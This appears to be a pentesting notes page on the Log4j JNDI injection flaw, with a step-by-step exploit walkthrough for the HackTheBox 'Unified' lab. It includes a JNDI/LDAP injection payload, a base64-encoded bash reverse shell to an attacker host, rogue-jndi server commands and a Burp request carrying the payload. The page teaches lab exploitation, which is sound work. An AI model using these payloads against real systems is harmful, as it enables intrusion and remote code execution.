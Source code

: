```yaml
---
title: Log4j
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - java
  - serialization vulnerability
---
```


# Log4j

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection). Log4j is a popular logging library for Java created in 2001. The logging library's main purpose is to provide developers with a way to change the format and verbosity of logging through configuration files versus code. 

## What it does

What a logging library does, is instead of using print statements, the developer just uses a wrapper around the Logging class or object. So instead of using print(line), the code would look like this:

```
logging.INFO(“Application Started”)
logging.WARN(“File Uploaded”)
logging.DEBUG(“SQL Query Ran”)
```

Then the application has a configuration file which says what log levels (INFO, WARN, DEBUG, etc.) to display. This way when there is a problem with the application, the developer can enable DEBUG mode and instantly get the messages they need to identify the issue.

## Reconnaissance - Proof of Concept

The main way people have been testing if an application is vulnerable is by combining this vulnerability with JNDI.

**Java Naming and Directory Interface (JNDI)** is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS). By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

In other words, JNDI is a simple Java API (such as 'InitialContext.lookup(String name)') that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

**LDAP is the acronym forLightweight Directory Access Protocol**, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389.

**Proof of concepts to see if it is vulnerable**:

**1.** Grab the request with the injectable parameter.

**2.** In the injectable parameter, inject something like this:

```
"${jndi:ldap://AtackerIP/whatever}"
```

With [tcpdump](tcpdump.md), check if the request with the payload produces some traffic to your attacker machine:

```bash
sudo tcpdump -i tun0 port 389
# -i: Select interface
# port: indicate the port where traffic is going to be captured. 
```

The tcpdump output shows a connection being received on our machine. This proves that the application is
indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

## Exploitation

```
# Install Open-JDK and Maven as requirement
sudo apt install openjdk-11-jre maven

git clone https://github.com/veracode-research/rogue-jndi 

cd rogue-jndi

mvn package

# Once it's build, make a reverse shell in base64 with attacker machine and listening port
echo 'bash -c bash -i >&/dev/tcp/AtackerIP/AtackerPort 0>&1' | base64
# This will return something similar to this: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK
 
# Get out of rogue-jndi folder and
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.129.96.149"
# In the bash command, copy paste your reverse shell in base64
# --hostname: Victim IP

# Now, open a terminal, launch [[netcat]] abd the listening port you defined in your payload.
```

With Burpsuite, get a request for login:

```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":false,"strict":true}
```

This request is from [HackTheBox machine: Unified](htb-unified.md). As we can read from the Unifi version exploit, the injectable parameter is "remember". So we insert there our payload and with Repeater, send the request:


```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":"${jndi:ldap://10.10.14.2:1389/o=tomcat}","strict":true}
```

Once we send that request, our jndi server will resend the reverse shell:

![jndi server](log4j.md)

And in our terminal with the nc listener we will get the reverse shell.

## Related labs

[Walkthrough HackTheBox machine: Unified](htb-unified.md).


